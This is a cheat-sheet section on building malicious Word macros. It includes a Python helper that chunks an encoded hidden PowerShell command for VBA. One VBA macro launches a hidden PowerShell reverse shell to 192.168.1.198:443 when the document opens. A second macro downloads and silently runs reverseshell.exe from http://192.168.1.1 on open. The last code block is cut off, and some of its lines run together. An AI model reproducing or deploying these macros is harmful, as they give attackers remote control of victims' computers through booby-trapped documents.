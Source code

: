 ### Microsoft VBA Macro Shell
- [Macro generator employing msfvenom for revshell.exe payload](https://github.com/jotyGill/macro-generator)
doc OR docm file types can be used. 
VBA has a 255 character limit for literal strings but not for variables.
```python
# to divide our powershell command into smaller chunks for vba literal string

str = "powershell.exe -nop -w hidden -enc SQBFAFgAKABOAGUAdwA..."

n = 50

for i in range(0, len(str), n):
	print("Str = Str + " + '"' + str[i:i+n] + '"')
```
#### 1
 **“Developer” > “Macros” > “Visual Basic”**
```vb
Sub test()  
' test Macro  
Dim objshell As Object  
Set objshell = CreateObject("Wscript.Shell")  
objshell.Run "powershell -WindowStyle Hidden -NoProfile -ExecutionPolicy Bypass -Command ""$command = {while($true){try {$cl = New-Object System.Net.Sockets.TcpClient('192.168.1.198',443);$st = $cl.GetStream();$rd = New-Object IO.StreamReader($st);$wr = New-Object IO.StreamWriter($st);$wr.AutoFlush = $true;while($cl.Connected){$cmd = $rd.ReadLine();if($cmd -eq 'exit'){break;}try{$res = iex $cmd 2>&1 | Out-String;}catch{$res = $_.Exception.Message;} $wr.WriteLine($res);$wr.Flush();}$cl.Close();}catch{Start-Sleep -Seconds 10;}}}; Start-Process powershell -WindowStyle Hidden -ArgumentList '-NoProfile', '-ExecutionPolicy', 'Bypass', '-Command', $command"""  
Set objshell = Nothing  
End Sub
```
Then add the below in the thisDocument section
```vb
Sub AutoOpen()  
	Call test  
End Sub
```
#### 2 [Reference:](https://medium.com/@calvintconnor/how-to-make-a-reverse-shell-with-microsoft-word-macros-94797534ffb3)
```vb
Sub Document_Open()  
    MyMacro  
End Sub
```

```vb
Sub AutoOpen()  
    MyMacro  
End Sub

Sub MyMacro()  
    Dim str As String  
    str = "powershell (New-Object System.Net.WebClient).DownloadFile('http://192.168.1.1/reverseshell.exe', 'reverseshell.exe')"  
    Shell str, vbHide  
    Dim exePath As String  
    exePath = ActiveDocument.Path + "\reverseshell.exe"  
    Wait (2)  
    Shell exePath, vbHideEnd SubSub Wait(n As Long)  
    Dim t As Date  
    t = Now  
    Do  
```